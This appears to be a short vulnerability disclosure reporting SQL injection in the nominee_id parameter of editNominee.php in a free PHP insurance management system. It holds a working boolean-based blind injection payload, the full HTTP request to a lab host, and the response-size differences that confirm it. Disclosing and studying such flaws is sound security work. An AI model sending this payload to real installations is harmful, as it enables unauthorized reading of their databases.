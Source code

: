 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability File: /insurance/editNominee.php?nominee_id=

Vulnerability location: /insurance/editNominee.php?nominee_id=,nominee_id=

[+] Payload: /insurance/editNominee.php?nominee_id=1511989270-522970848%27%20and%20length(database())%20=4%20--+ // Leak place ---> nominee_id=

Current database name: lims,length is 4

```sql
GET /insurance/editNominee.php?nominee_id=1511989270-522970848%27%20and%20length(database())%20=4%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4297

![image](https://user-images.githubusercontent.com/54017627/166145608-a4a96fa9-2dac-4f11-9553-db7b2e0cdb8b.png)

![image](https://user-images.githubusercontent.com/54017627/166145645-d65ea022-f297-4ebb-9743-5ff4af9d15e0.png)

When length (database ()) = 4, Content-Length: 5523

![image](https://user-images.githubusercontent.com/54017627/166145599-af8f06fd-ee6a-47e7-a041-0c66c6a42fee.png)

![image](https://user-images.githubusercontent.com/54017627/166145624-cb5d3dce-affd-4f55-b06b-444c9c0757aa.png)
